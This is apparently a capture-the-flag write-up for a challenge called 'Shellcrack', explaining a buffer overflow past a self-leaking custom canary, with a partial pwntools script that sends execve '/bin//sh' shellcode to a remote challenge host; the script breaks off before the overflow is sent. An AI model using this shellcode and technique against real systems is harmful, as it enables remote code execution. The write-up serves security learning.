```yaml
---
title: So You Think Fgets is Safe?
date: "2020-07-12 15:10:31.582772"
description: "Exploiting the use of improper fgets to grab a shell :)"
tags: ["Code", "Binary Exploitation"]
---
```


## Shellcrack

---

FLAG{REDACTED}

---

This was a simple, "run your shellcode" challenge. Use the buffer overflow to overwrite the return address with the address of your buffer. Since the address of the buffer is given to you, this one was pretty easy.

If there was one issue, it would be that there's a canary. But since it does not show up on `checksec`, it is a user made canary. The fun part is that the canary leaks itself, because the buffer is copied to 0x20 bytes after the start of the actual buffer, and printed from there, leaking the canary which is right after. Brilliant.

1. Since the fread, accepts only 0x10 bytes, we put in some random characters + a newline
2. Read in the canary that was leaked
3. Put the shellcode in the buffer, then proceed to jump to it and execute to pop a shell
4. `cat flag`

```
#!/usr/bin/python3

from pwn import *

#p = process('./shellcrack')
p = remote('plsdonthaq.me', 5001)

fread = b'\x90' * (0x10 - 1)

# shell exec code lol
payload = asm('''

sub esp, 0x50

push 0
push {}
push {}

mov eax, 0xb
mov ebx, esp
mov ecx, 0
mov edx, 0
mov esi, 0

int 0x80

'''.format(u32('//sh'), u32('/bin')))

padding = b'AAAABBBBC'

p.readline()
p.sendline(fread)
p.readline()

```